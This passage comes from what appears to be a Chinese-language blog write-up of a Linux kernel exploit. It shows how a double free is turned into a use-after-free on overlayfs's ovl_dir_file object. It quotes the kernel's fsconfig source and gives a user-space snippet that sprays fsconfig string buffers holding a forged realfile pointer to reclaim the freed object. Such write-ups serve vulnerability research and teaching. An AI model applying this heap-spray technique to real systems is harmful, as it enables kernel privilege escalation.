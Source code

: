 转换为 ovl\_dir\_file UAF 的示意图如下：

​[![](assets/1706146253-9c1bddf5e8ac2aab67f7bf0bd716bb5a.png)](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240123151800409-1052291946.png)​

> PS: 利用 Double Free 将占位的 ovl\_dir\_file 释放

使用 ramfs\_parse\_param 占位 ovl\_dir\_file 的相关代码如下：

```bash
SYSCALL_DEFINE5(fsconfig,
        int, fd,
        unsigned int, cmd,
        const char __user *, _key,
        const void __user *, _value,
        int, aux)
{
  ...
    struct fs_parameter param = {
        .type   = fs_value_is_undefined,
    };
  ...

  switch (cmd) {
  ...
    case FSCONFIG_SET_STRING:
        param.type = fs_value_is_string;
        param.string = strndup_user(_value, 256); // string buffer allocation happened here.
        if (IS_ERR(param.string)) {
            ret = PTR_ERR(param.string);
            goto out_key;
        }
        param.size = strlen(param.string);
        break;
  ...
  }
```

利用 FSCONFIG\_SET\_STRING 的 value 可以控制分配的数据和大小，对应到用户态代码如下：

```bash
struct ovl_dir_file *od = (struct ovl_dir_file*)overwrite_buf;
  od->realfile = fake_file_addr;
  overwrite_buf[sizeof(struct ovl_dir_file)] = 0;

  for (int i = 0; i < 2; i++)
    syscall(SYS_fsconfig, overwrite_ovl_dir_file_fsfds[i], FSCONFIG_SET_STRING, "source", overwrite_buf, 0);  // 多次分配确保占位刚刚释放的 ovl_dir_file
```
